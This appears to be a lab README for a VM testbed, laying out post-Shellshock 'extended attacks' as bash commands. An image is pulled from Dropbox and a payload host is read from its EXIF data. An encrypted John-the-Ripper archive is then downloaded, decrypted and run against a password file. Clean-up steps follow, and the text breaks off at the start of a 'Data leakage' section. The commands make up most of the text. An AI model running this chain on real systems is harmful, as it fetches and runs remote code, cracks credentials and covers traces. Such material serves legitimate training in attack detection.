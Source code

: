 
### Extended Attack 1: Encryption / Decryption with GnuPG

Run the following commands from *vm1* (the command will be executed from *vm0*), after the initial (Shellshock) penetration.

1. Download images Cloud service (Dropbox)

  ```bash
  wget https://www.dropbox.com/s/g4kwxc8708l1gkb/IMG_4413.JPG?dl=0 -O /tmp/update.jpg
  ```

2. Export payload location

  ```bash
  IP=$(vpnfilter-stage1-exif.py /tmp/update.jpg)
  FILE=$(sum /tmp/update.jpg |cut -d ' ' -f1)
  ```

3. Download encrypted payload

  ```bash
  curl http://${IP}/$FILE -o /tmp/john.gpg
  ```

4. Decrypt password cracker (John-the-Ripper)

  ```bash
  KEY=$(md5sum /tmp/update.jpg |cut -d ' ' -f1)
  echo $KEY
  gpg --batch --yes --passphrase $KEY --output john.tbz2 --decrypt /tmp/john.gpg
  ```

5. Unzip and run the program

  ```bash
  tar xvjf john.tbz2
  cd john/
  ./john /etc/password.txt
  ./john --show /etc/password.txt
  ./john --show /etc/password.txt > password_crack.txt
  ```

6. To re-run the attack, do some clean-up on *vm0*

  ```bash
  sudo rm /tmp/update.jpg
  sudo rm /tmp/john.gpg
  sudo rm /tmp/bdoor
  cd /usr/local/thttpd/www/cgi-bin
  sudo rm -rf john john.tbz2
  ```

### Extended Attack 2: Data leakage

Run the following commands from VM0, after the initial (Shellshock) penetration.

Pre-requisite: Execute the following commands from *vm1* (the remote terminal for *vm0*): 

```bash
HOME="/home/ubuntu"
KEY="b007"
```
